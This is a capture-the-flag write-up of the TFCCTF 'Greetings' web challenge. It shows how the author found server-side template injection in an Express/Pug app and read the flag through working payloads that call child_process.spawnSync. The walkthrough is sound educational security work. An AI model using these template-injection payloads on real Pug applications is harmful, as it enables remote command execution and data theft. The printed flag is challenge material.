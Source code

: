 # GREETINGS

![](../images/greetings-part-1.png)

I start the instance, and click on the link generated by the instance, which takes me to this website:

![](../images/greetings-part-2.png)

I try to enter nothing, but I get a popup that tells me to enter something, so I enter my name as "a", which results in:

![](../images/greetings-part-3.png)

I then look at the URL at the top of the page:

```txt
http://challs.tfcctf.com:30691/result?username=a
```

I wondered what would happen if I deleted the `?username` filed from the URL, so, I changed the URL to:

```txt
http://challs.tfcctf.com:30691/result
```

Which resulted in:

![](../images/greetings-part-4.png)

Interesting, as I wasn’t allowed to leave the username field blank in the welcome screen. Anyway, I open BurpSuite, and while analyzing the requests, I notice in one of the respones:

![](../images/greetings-part-5.png)

Express is written in Javascript, therefore to exploit any vulnerability present on the website, I must use Javascript exploits. I began by attempting a Javascript SSTI attack, entering:

![](../images/greetings-part-6.png)

If the website gives me an error after executing this, it is vulnerable to SSTI, as if it wasn't vulnerable to SSTI, it wouldn't give an error. I then execute my input, which results in:

![](../images/greetings-part-7.png)

The website is vulnerable. Looking at the text of the error:

```txt
Syntax Error: Unexpected token
    at makeError (/usr/src/app/node_modules/pug-error/lib/index.js:34:15)
    at Lexer.error (/usr/src/app/node_modules/pug-lexer/index.js:62:15)
    at Lexer.assertExpression (/usr/src/app/node_modules/pug-lexer/index.js:96:12)
    at Lexer.addText (/usr/src/app/node_modules/pug-lexer/index.js:627:12)
    at Lexer.text (/usr/src/app/node_modules/pug-lexer/index.js:653:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.advance (/usr/src/app/node_modules/pug-lexer/index.js:1689:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.getTokens (/usr/src/app/node_modules/pug-lexer/index.js:1706:12)
    at lex (/usr/src/app/node_modules/pug-lexer/index.js:12:42)
```

The website seems to be stored in the `/usr/src/app/` directory of the server. I then type:

```txt
 #{process.mainModule.require('child_process').spawnSync('ls', ['/usr/src/app/']).stdout}
```

Which results in:

![](../images/greetings-part-9.png)

I then type:

```txt
#{process.mainModule.require('child_process').spawnSync('cat', ['/usr/src/app/flag.txt']).stdout}
```

Which results in:

![](../images/greetings-part-10.png)

I then submit `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}` and solve the challenge.










